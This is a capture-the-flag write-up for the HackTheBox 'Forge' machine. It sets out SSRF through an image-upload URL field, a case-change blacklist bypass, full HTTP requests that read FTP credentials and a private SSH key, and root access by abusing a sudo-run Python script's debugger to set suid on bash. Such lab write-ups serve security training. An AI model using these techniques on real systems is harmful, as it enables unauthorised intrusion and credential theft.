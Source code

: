 # HACKTHEBOX: Forge

Any unauthenticated attacker can abuse SSRF in the forge.htb/uploads website to gain access to an internal admin page containing FTP credentials. Abusing SSRF again to access the FTP server allows the attacker to access a private SSH key. After using the SSH key to gain user acecss, run sudo on a python program to get access to root.

## Recon and Enumeration

First, start with an nmap scan. There is a filtered FTP server, an SSH server, and an HTTP server on port 80.
```
# Nmap 7.92 scan initiated Thu Dec  9 10:40:44 2021 as: nmap -A -p- --min-rate 4000 -oA forge 10.10.11.111
Nmap scan report for forge.htb (10.10.11.111)
Host is up (0.063s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41
|_http-title: Gallery
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=12/9%OT=22%CT=1%CU=32552%PV=Y%DS=2%DC=T%G=Y%TM=61B23FC
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: Host: 10.10.11.111; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   62.16 ms 10.10.14.1
2   62.37 ms forge.htb (10.10.11.111)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec  9 10:41:23 2021 -- 1 IP address (1 host up) scanned in 38.73 seconds
```

The web app on port 80 has a domain name of `forge.htb`, and looks like a image galleray web app.
![forge home](screenshots/forge_home.png)

There's a link to a `/upload` page, where images can be uploaded (for example, *alterego.png*). There is also an option for an upload from URL.
![upload](screenshots/upload.png)
![upload success](screenshots/upload_success.png)

After uploading the image, visiting the provided URL confirms the correctly uploaded *alterego.png*
![gallery](screenshots/gallery.png)

This suggests Remote File Inclusion, but attempts to upload a webshell via this simple upload failed. Instead, continue reconaissance and run a `ffuf` scan to check for other virtual hosts and domains. The scan shows a successful response for `admin.forge.htb`
![ffuf](screenshots/ffuf.png)

Attempting to access http://admin.forge.htb shows that it is an internal site. Since (apparently) only localhost can access the admin page, SSRF should be tested in order to reach the admin page.

![admin fail](screenshots/admin_fail.png)

Use burp to get SSRF from the `/upload` page on `forge.htb` using the *Upload from URL* option. Attempting to access http://admin.forge.htb from http://forge.htb/upload returns an error: `URL contains a blacklisted address!`
![blacklist](screenshots/blacklist.png)

However, changing a letter from lowercase to uppercase bypasses the WAF, and the upload succeeded.
![admin success](screenshots/admin_success.png)

Follow the provided URL and read the admin page to confirm the successful SSRF vulnerability. The admin page contains two other links, `/announcements` and `/upload`.
![ssrf](screenshots/ssrf.png)

## Exploitation and user.txt
The admin page has a `/announcements` page and `/upload` page. Exploiting SSRF to read the `/announcements` page reveals 1) an ftp password of `user:heightofsecurity123!` and 2) an additional `?u=<url>` GET request parameter that supports FTP.
![burp announcements](screenshots/burp_announcements.png)
![curl announcements](screenshots/curl_announcements.png)

The following POST request allows the attacker to retrive files via FTP. Here, the post request views the contents of the current FTP directory, which contains `snap` and `user.txt`.
```
POST /upload HTTP/1.1
Host: forge.htb
Content-Length: 87
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://forge.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://forge.htb/upload
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

url=http://admin.forge.htB/upload?u=ftp://user:heightofsecurity123!@forge.htB/&remote=1
```
![homedir](screenshots/homedir.png)

The same process can be used to retrieve `.ssh/id_rsa`
```
POST /upload HTTP/1.1
Host: forge.htb
Content-Length: 98
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://forge.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://forge.htb/upload
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

url=http://admin.forge.htB/upload?u=ftp://user:heightofsecurity123!@forge.htB/.ssh/id_rsa&remote=1
```
![sshkey](screenshots/sshkey.png)

The attacker can now connect via SSH using id_rsa.
![user ssh](screenshots/userssh.png)

## Privilege Escalation and root.txt
Running `sudo -l` reveals the user can run a python script as root without a password.
![sudo list](screenshots/sudo_list.png)

Running the python script with sudo shows that it listens for a port and expects a password of `secretadminpassword`. When it recieves unexpected input, it drops a python debugging shell. tmux can be used to create multiple windows. One tmux window will be used to run the python script, and the other tmux window will be used to connect via netcat.
```
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

![privesc](screenshots/privesc.gif)

After `hello world` was entered, a python debug shell was opened in tmux window one. Here, the attacker can run arbitrary python commands. This was used to add the suid bit to `/bin/bash`
